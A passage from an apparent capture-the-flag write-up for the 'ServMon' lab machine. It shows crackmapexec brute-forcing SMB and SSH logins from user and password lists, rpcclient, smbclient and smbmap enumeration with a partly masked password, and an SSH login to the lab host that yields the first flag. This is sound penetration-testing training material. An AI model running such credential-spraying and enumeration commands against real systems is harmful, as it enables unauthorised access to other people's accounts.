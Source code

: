 ```bash

nvim Users.txt
cat Users.txt
crackmapexec smb 10.10.10.184 -u Users.txt -p Passwords.txt
```

<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

My credentials do not allow me to enumerate the system with `rpcclient`, or to access private shared resources with `smbclient` or `smbmap`, but I remember that the **SSH** service is available. The great `crackmapexec` tool also allows me to perform a brute force attack to check if any of the credentials are valid for connecting via the **SSH** protocol. After a short wait, `crackmapexec` finds one that allows me to connect to the **Windows system** with the **nadine** account and access the first flag.

```bash
rpcclient -U "nadine%L...k" 10.10.10.184
  enumdomusers
  enumdomgroups
  quit
smbclient -L 10.10.10.184 -U "nadine"
smbmap -H 10.10.10.184 -u "nadine" -p "L...k" --no-banner

crackmapexec ssh 10.10.10.184 -u Users.txt -p Passwords.txt
ssh nadine@10.10.10.184
```

<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
